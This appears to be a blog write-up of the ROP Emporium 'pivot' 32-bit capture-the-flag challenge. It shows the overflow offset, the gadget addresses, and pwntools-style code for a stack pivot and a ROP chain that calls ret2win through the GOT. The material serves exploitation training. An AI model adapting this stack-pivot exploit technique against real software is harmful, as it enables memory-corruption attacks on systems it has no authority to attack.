 ```yaml
---
layout: post
title: ROP Emporium Challenge 6 - Pivot (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *There's only enough space for a three-link chain on the stack but you've been given space to stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location.*
<!--more-->

# pivot32

Link: https://ropemporium.com/challenge/pivot.html


-----------------------------


## 1. Calculating EIP overwrite offset

We will start checking the offset in the second input is 44, given that with 45 characters the EIP register is overwritten with one character:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/6_pivot32/images/Screenshot_1.jpg)


## 2. Studying the binary

We will check the addresses of *foothold_function* and *ret2win* in both *pivot32* and *libpivot32* using objdump:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/6_pivot32/images/Screenshot_2.jpg)

So we know that:

- *foothold_function()* address in *pivot32* is 0x080485f0

- *foothold_function()* address in *libpivot32* is 0x00000770 and *ret2win()* address is 0x00000967, with and offset of **0x1F7**.


## 3. Stack pivoting

We will use ROPgadget to find useful gadgets with:

```
python /root/tools/ROPgadget/ROPgadget.py --binary pivot32
```

We will control ESP in 2 steps:

1. Set EAX to the address which we will parse from the output of the program, using the gadget *0x080488c0 : pop eax ; ret*

2. Swap the values of EAX and ESP with *0x080488c2 : xchg eax, esp ; ret*

The code for parsing the output of the binary and the stack pivoting will be:

```
recv = p.recvuntil("> ")
pivot_address = recv.split("pivot: ")[1].split("\n")[0]
pivot_address_hexa = int(pivot_address, 16)

pop_eax =      0x080488c0
xchg_eax_esp = 0x080488c2

stack_pivot = "A" * 44 + p32(pop_eax) + p32(pivot_address_hexa) + p32(xchg_eax_esp) 
p.sendline(stack_pivot)
```


## 4. Calling ret2win

In this case we wil not leak the addresses as we did in the 64 bits version, because it was not useful in the end. So we will look for similar gadgets which we will use for:

- Move the address of *foothold_function* in .got.plt section to EAX with *0x080488c0 : pop eax ; ret*

- Move 0x1F7 (the offset between *foothold_function* and *ret2win*) to EBX with *0x08048571 : pop ebx ; ret*

- Move the sum EAX+EBX (address of *ret2win* in .got.plt section) in EAX with *0x080488c7 : add eax, ebx ; ret*

- Move the address EAX is pointing to to EAX with *0x080488c4 : mov eax, dword ptr [eax] ; ret*

- Call the function EAX is pointing to (*ret2win*) with *0x080486a3 : call eax*



## 5. Final exploit

The ROP will then be:

```
rop  = ""
rop += p32(foothold_function_PLT)
rop += p32(pop_eax) + p32(foothold_function_GOT)
rop += p32(mov_eax_eax)
rop += p32(pop_ebx) + p32(0x1F7)
rop += p32(add_eax_ebx)
rop += p32(call_eax)
```

Executing it, it shows the content of the flag:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/6_pivot32/images/Screenshot_3.jpg)